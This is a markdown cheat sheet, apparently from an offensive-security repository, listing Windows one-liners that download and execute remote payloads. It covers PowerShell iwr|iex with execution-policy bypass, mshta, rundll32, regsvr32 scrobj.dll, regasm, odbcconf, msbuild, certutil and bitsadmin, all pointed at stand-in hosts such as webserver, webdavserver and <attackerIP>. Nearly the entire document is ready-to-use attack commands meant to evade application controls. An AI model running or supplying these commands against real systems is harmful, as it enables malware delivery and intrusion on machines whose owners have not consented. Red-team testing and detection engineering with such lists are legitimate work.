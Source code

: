 # Windows - Download and execute methods

## Downloaded files location

- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell

From an HTTP server

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

From a Webdav server

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

## Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

## Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

## References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

